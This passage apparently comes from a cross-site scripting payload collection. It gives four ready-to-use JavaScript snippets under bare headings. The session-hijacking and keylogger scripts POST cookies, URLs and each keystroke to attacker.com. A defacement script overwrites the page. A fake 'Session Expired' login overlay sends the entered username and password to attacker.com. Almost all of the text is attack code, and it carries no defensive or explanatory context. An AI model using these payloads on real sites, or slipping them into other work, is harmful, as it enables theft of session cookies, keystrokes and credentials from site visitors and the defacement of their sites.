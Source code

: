 ### Session Hijacking
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open('POST', 'http://attacker.com/steal', true);
xhr.send('cookies=' + document.cookie + '&url=' + document.URL);
</script>
```

### Keylogger
```html
<script>
document.onkeypress = function(e) {
    var xhr = new XMLHttpRequest();
    xhr.open('POST', 'http://attacker.com/keylog', true);
    xhr.send('key=' + String.fromCharCode(e.which));
}
</script>
```

### Page Defacement
```html
<script>
document.body.innerHTML = '<h1>Website Hacked!</h1><p>This site has been compromised</p>';
</script>
```

### Fake Login Form
```html
<script>
document.body.innerHTML = `
<div style="position:fixed;top:0;left:0;width:100%;height:100%;background:rgba(0,0,0,0.8);z-index:9999;">
    <div style="position:absolute;top:50%;left:50%;transform:translate(-50%,-50%);background:white;padding:20px;border-radius:8px;">
        <h3>Session Expired - Please Login</h3>
        <input type="text" placeholder="Username" id="fake-user">
        <input type="password" placeholder="Password" id="fake-pass">
        <button onclick="stealCreds()">Login</button>
    </div>
</div>`;

function stealCreds() {
    var user = document.getElementById('fake-user').value;
    var pass = document.getElementById('fake-pass').value;
    fetch('http://attacker.com/steal', {
        method: 'POST',
        body: 'user=' + user + '&pass=' + pass
    });
}
</script>
```
